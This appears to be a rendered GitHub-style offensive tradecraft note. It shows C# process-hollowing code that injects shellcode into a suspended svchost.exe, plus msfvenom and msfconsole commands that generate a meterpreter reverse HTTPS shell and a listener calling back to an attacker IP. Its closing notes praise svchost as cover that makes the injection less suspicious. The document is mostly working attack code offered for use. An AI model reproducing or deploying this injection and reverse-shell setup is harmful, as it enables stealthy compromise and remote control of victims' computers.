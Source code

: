 ```csharp
        [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
        byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern uint ResumeThread(IntPtr hThread);

    static void Main()
    {
        // Step 1: Create Suspended Process
        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe",
            IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

        // Step 2: Get PEB / Image Base
        PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
        IntPtr hProcess = pi.hProcess;
        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
        IntPtr ptrToImageBase = (IntPtr)((long)bi.PebAddress + 0x10);

        // Step 3: Read Image Base
        byte[] addrBuf = new byte[IntPtr.Size];
        IntPtr nRead = IntPtr.Zero;
        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

        // Step 4: Parse EntryPoint
        byte[] data = new byte[0x200];
        ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
        uint opthdr = e_lfanew_offset + 0x28;
        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
        IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (ulong)svchostBase);

        // Step 5: Write Shellcode
        byte[] buf = new byte[] { 0xfc, 0x48, 0x83, 0xe4 /* … */ };
        WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

        // Step 6: Resume Process
        ResumeThread(pi.hThread);
    }
}
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.2.142 LPORT=4444 -f csharp
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.16.24; set LPORT 4444; exploit"

```

---

## 🔹 Key Notes

- Works because process runs **trusted binary (svchost.exe)** → less suspicious.
- Adapt offsets & pointer sizes for **x86 vs x64**.
- Can be modified to inject a full EXE, not just shellcode.

---

